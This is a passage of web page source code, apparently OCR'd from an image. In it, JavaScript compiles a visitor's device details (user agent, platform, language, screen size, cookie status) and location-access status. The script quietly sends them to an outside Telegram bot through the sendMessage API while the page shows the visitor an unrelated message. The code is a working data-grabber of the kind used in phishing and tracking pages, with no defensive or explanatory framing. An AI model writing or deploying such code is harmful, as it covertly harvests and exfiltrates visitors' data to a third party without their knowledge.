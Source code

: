 [Device Info]
- User Agent: ${device.userAgent}
- Platform: ${device.platform}
- Language: ${device.language}
- Screen Size: ${device.screenSize}
- Cookies Enabled: ${device.cookiesEnabled}

[Location Info]
- Location access denied or not supported
                `;
                
                const telegramURL = `https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`;
                fetch(telegramURL, {
                    method: 'POST',
                    headers: { 'Content-Type': 'application/json' },
                    body: JSON.stringify({
                        chat_id: CHAT_ID,
                        text: text,
                    })
                })
                .then(res => res.json())
                .then(data => console.log("Sent to Telegram:", data))
                .catch(err => console.error("Telegram Error:", err));
            }
            
            function showMessage(message) {
                messageElement.textContent = message;
                messageElement.classList.add('show');
            }
        });
    </script>
</body>
</html>
